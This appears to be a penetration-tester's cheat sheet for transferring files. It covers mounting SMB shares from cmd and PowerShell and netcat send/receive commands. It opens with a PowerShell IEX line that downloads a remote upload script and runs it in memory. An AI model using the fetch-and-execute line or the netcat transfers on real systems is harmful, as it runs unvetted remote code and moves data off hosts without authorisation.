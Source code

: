 # try this for uploads from windows
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')













## Mount password protected smb server(cmd)

```cmd
net use <new drive letter:> \\<ip address of smb server>\<share name> /user:<username> <password>
```

## Mount password protected smb server (powershell)
### Create credential object

```powershell
$user = "username"
$password = ConvertTo-SecureString -String "password" -AsPlainText -Force
$Credential = New-Object -Typename System.Management.Automation.PSCredential -ArgumentList $user, $password 
```

### Mount share with credential object

```powershell
New-PSDrive -Name <drive letter> -PSProvider FileSystem -Root \\<server>\<share> -Credential $Credential -Persist
```

### unmount share (powershell)

```powershell
Remove-PSDrive -Name <assigned drive letter>
```

## unmount share (cmd)

```cmd
net use <mounted share drive letter>: /d

```
### netcat
#### reciever
```bash
nc -l -p 1234 > out.file
```
#### sender
```
nc -w 3 [destination] 1234 < out.file
```
